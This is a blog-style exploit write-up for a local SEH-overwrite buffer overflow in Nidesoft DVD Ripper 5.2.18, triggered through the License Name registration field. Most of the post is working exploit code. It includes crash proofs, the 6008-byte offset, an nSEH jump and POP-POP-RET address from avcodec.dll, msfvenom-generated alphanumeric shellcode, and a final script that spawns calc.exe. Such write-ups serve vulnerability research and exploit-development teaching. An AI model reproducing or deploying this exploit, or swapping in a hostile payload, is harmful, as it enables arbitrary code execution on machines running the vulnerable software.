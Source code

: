```yaml
---
layout: post
title: Nidesoft DVD Ripper - 5.2.18 Local Buffer Overflow
date: 2020-07-29 14:45:00
categories: posts
comments: false
en: true
---
```


# The Bug.

### DVD Ripper version 5.2.18 suffers from a Structured Exception Handling Overwrite when a long string is parsed through the parameter "License Name" within the registration in the bootup.

### Initial PoC:

```term
import struct

buffer = "A" * 7000

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

### The exploit is generated.

![](/assets/img/Findings10/1.png)

### The exploit is copied into the clipboard.

![](/assets/img/Findings10/2.png)

### The application is launched and the payload is sent through the required parameter.

![](/assets/img/Findings10/3.png)

## Crash I.

![](/assets/img/Findings10/4.png)

# Controlling the execution.

### Through the use of msf-pattern*, the offset is found to be at 6008.

### PoC.

```term
import struct

buffer = "A" * 6008 + "BBBB" + "CCCC" 

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

### Crash II.

![](/assets/img/Findings10/5.png)

### List of the available modules.

![](/assets/img/Findings10/6.png)

### In this case, i chose avcodec.dll, as it possesses a great quantity of POP-POP-RET sequences. In addition, these were found to be alphanumeric as well.

![](/assets/img/Findings10/7.png)

### PoC.

```term
import struct

nseh = "\x70\x08\x71\x06"
seh = struct.pack("<I", 0x66784C36)

buffer = "A" * 6008 + nseh + seh + "\xff" * 2000

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

### Crash III.

![](/assets/img/Findings10/8.png)

### The jump is seen to fall not within the \xff characters, in order to fix this, the jump is changed on its last byte to be a bit higher, instead of being 06 to 08.

### PoC.

```term
import struct

nseh = "\x70\x08\x71\x08"
seh = struct.pack("<I", 0x66784C36)

buffer = "A" * 6008 + nseh + seh + "\xff" * 2000

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

### Crash IV.

![](/assets/img/Findings10/9.png)

## Generating Shellcode.

```term
root@whitecr0wz:~# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 447 (iteration=0)
x86/alpha_mixed chosen with final size 447
Payload size: 447 bytes
Final size of py file: 2184 bytes
buf =  b""
buf += b"\x89\xe2\xda\xcd\xd9\x72\xf4\x5a\x4a\x4a\x4a\x4a\x4a"
buf += b"\x4a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43\x43\x37"
buf += b"\x52\x59\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41"
buf += b"\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
buf += b"\x50\x38\x41\x42\x75\x4a\x49\x69\x6c\x6b\x58\x4b\x32"
buf += b"\x65\x50\x73\x30\x57\x70\x33\x50\x6c\x49\x68\x65\x35"
buf += b"\x61\x69\x50\x70\x64\x6c\x4b\x30\x50\x46\x50\x4e\x6b"
buf += b"\x73\x62\x36\x6c\x6c\x4b\x61\x42\x34\x54\x4c\x4b\x42"
buf += b"\x52\x46\x48\x54\x4f\x38\x37\x53\x7a\x54\x66\x70\x31"
buf += b"\x79\x6f\x4e\x4c\x37\x4c\x55\x31\x61\x6c\x36\x62\x76"
buf += b"\x4c\x31\x30\x6f\x31\x78\x4f\x44\x4d\x36\x61\x6a\x67"
buf += b"\x49\x72\x6c\x32\x56\x32\x70\x57\x6e\x6b\x61\x42\x76"
buf += b"\x70\x4c\x4b\x30\x4a\x67\x4c\x6c\x4b\x32\x6c\x44\x51"
buf += b"\x33\x48\x49\x73\x30\x48\x33\x31\x68\x51\x42\x71\x4e"
buf += b"\x6b\x31\x49\x37\x50\x36\x61\x6a\x73\x6c\x4b\x63\x79"
buf += b"\x34\x58\x69\x73\x36\x5a\x72\x69\x4c\x4b\x36\x54\x4c"
buf += b"\x4b\x46\x61\x5a\x76\x64\x71\x79\x6f\x6c\x6c\x6f\x31"
buf += b"\x4a\x6f\x66\x6d\x56\x61\x58\x47\x66\x58\x59\x70\x52"
buf += b"\x55\x78\x76\x33\x33\x73\x4d\x69\x68\x57\x4b\x71\x6d"
buf += b"\x55\x74\x54\x35\x78\x64\x72\x78\x6c\x4b\x62\x78\x35"
buf += b"\x74\x37\x71\x4e\x33\x45\x36\x4c\x4b\x64\x4c\x42\x6b"
buf += b"\x6c\x4b\x72\x78\x55\x4c\x63\x31\x79\x43\x6e\x6b\x77"
buf += b"\x74\x4e\x6b\x63\x31\x58\x50\x6d\x59\x30\x44\x31\x34"
buf += b"\x51\x34\x33\x6b\x71\x4b\x33\x51\x62\x79\x30\x5a\x32"
buf += b"\x71\x69\x6f\x4d\x30\x71\x4f\x71\x4f\x70\x5a\x6e\x6b"
buf += b"\x65\x42\x6a\x4b\x6e\x6d\x51\x4d\x42\x4a\x46\x61\x6c"
buf += b"\x4d\x6b\x35\x6c\x72\x33\x30\x73\x30\x37\x70\x50\x50"
buf += b"\x70\x68\x76\x51\x4e\x6b\x42\x4f\x4c\x47\x39\x6f\x39"
buf += b"\x45\x6d\x6b\x39\x70\x65\x4d\x45\x7a\x46\x6a\x43\x58"
buf += b"\x49\x36\x4e\x75\x6f\x4d\x6d\x4d\x59\x6f\x38\x55\x57"
buf += b"\x4c\x57\x76\x43\x4c\x54\x4a\x4f\x70\x79\x6b\x6d\x30"
buf += b"\x51\x65\x44\x45\x6f\x4b\x42\x67\x72\x33\x72\x52\x52"
buf += b"\x4f\x33\x5a\x57\x70\x51\x43\x6b\x4f\x4b\x65\x73\x53"
buf += b"\x61\x71\x30\x6c\x62\x43\x64\x6e\x50\x65\x50\x78\x70"
buf += b"\x65\x75\x50\x41\x41"
```

### Final PoC.

```term
import struct

# msfvenom -p windows/exec CMD=calc.exe -f py -e x86/alpha_mixed EXITFUNC=thread 
# Payload size: 447 bytes

buf =  b""
buf += b"\x89\xe2\xda\xcd\xd9\x72\xf4\x5a\x4a\x4a\x4a\x4a\x4a"
buf += b"\x4a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43\x43\x37"
buf += b"\x52\x59\x6a\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41"
buf += b"\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42\x58"
buf += b"\x50\x38\x41\x42\x75\x4a\x49\x69\x6c\x6b\x58\x4b\x32"
buf += b"\x65\x50\x73\x30\x57\x70\x33\x50\x6c\x49\x68\x65\x35"
buf += b"\x61\x69\x50\x70\x64\x6c\x4b\x30\x50\x46\x50\x4e\x6b"
buf += b"\x73\x62\x36\x6c\x6c\x4b\x61\x42\x34\x54\x4c\x4b\x42"
buf += b"\x52\x46\x48\x54\x4f\x38\x37\x53\x7a\x54\x66\x70\x31"
buf += b"\x79\x6f\x4e\x4c\x37\x4c\x55\x31\x61\x6c\x36\x62\x76"
buf += b"\x4c\x31\x30\x6f\x31\x78\x4f\x44\x4d\x36\x61\x6a\x67"
buf += b"\x49\x72\x6c\x32\x56\x32\x70\x57\x6e\x6b\x61\x42\x76"
buf += b"\x70\x4c\x4b\x30\x4a\x67\x4c\x6c\x4b\x32\x6c\x44\x51"
buf += b"\x33\x48\x49\x73\x30\x48\x33\x31\x68\x51\x42\x71\x4e"
buf += b"\x6b\x31\x49\x37\x50\x36\x61\x6a\x73\x6c\x4b\x63\x79"
buf += b"\x34\x58\x69\x73\x36\x5a\x72\x69\x4c\x4b\x36\x54\x4c"
buf += b"\x4b\x46\x61\x5a\x76\x64\x71\x79\x6f\x6c\x6c\x6f\x31"
buf += b"\x4a\x6f\x66\x6d\x56\x61\x58\x47\x66\x58\x59\x70\x52"
buf += b"\x55\x78\x76\x33\x33\x73\x4d\x69\x68\x57\x4b\x71\x6d"
buf += b"\x55\x74\x54\x35\x78\x64\x72\x78\x6c\x4b\x62\x78\x35"
buf += b"\x74\x37\x71\x4e\x33\x45\x36\x4c\x4b\x64\x4c\x42\x6b"
buf += b"\x6c\x4b\x72\x78\x55\x4c\x63\x31\x79\x43\x6e\x6b\x77"
buf += b"\x74\x4e\x6b\x63\x31\x58\x50\x6d\x59\x30\x44\x31\x34"
buf += b"\x51\x34\x33\x6b\x71\x4b\x33\x51\x62\x79\x30\x5a\x32"
buf += b"\x71\x69\x6f\x4d\x30\x71\x4f\x71\x4f\x70\x5a\x6e\x6b"
buf += b"\x65\x42\x6a\x4b\x6e\x6d\x51\x4d\x42\x4a\x46\x61\x6c"
buf += b"\x4d\x6b\x35\x6c\x72\x33\x30\x73\x30\x37\x70\x50\x50"
buf += b"\x70\x68\x76\x51\x4e\x6b\x42\x4f\x4c\x47\x39\x6f\x39"
buf += b"\x45\x6d\x6b\x39\x70\x65\x4d\x45\x7a\x46\x6a\x43\x58"
buf += b"\x49\x36\x4e\x75\x6f\x4d\x6d\x4d\x59\x6f\x38\x55\x57"
buf += b"\x4c\x57\x76\x43\x4c\x54\x4a\x4f\x70\x79\x6b\x6d\x30"
buf += b"\x51\x65\x44\x45\x6f\x4b\x42\x67\x72\x33\x72\x52\x52"
buf += b"\x4f\x33\x5a\x57\x70\x51\x43\x6b\x4f\x4b\x65\x73\x53"
buf += b"\x61\x71\x30\x6c\x62\x43\x64\x6e\x50\x65\x50\x78\x70"
buf += b"\x65\x75\x50\x41\x41"

nseh = "\x70\x08\x71\x08"
seh = struct.pack("<I", 0x66784C36)

buffer = "A" * 6008 + nseh + seh + "A" * 5 + buf + "\xff" * 2000

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

# EndGame.

![](/assets/img/Findings10/10.gif)
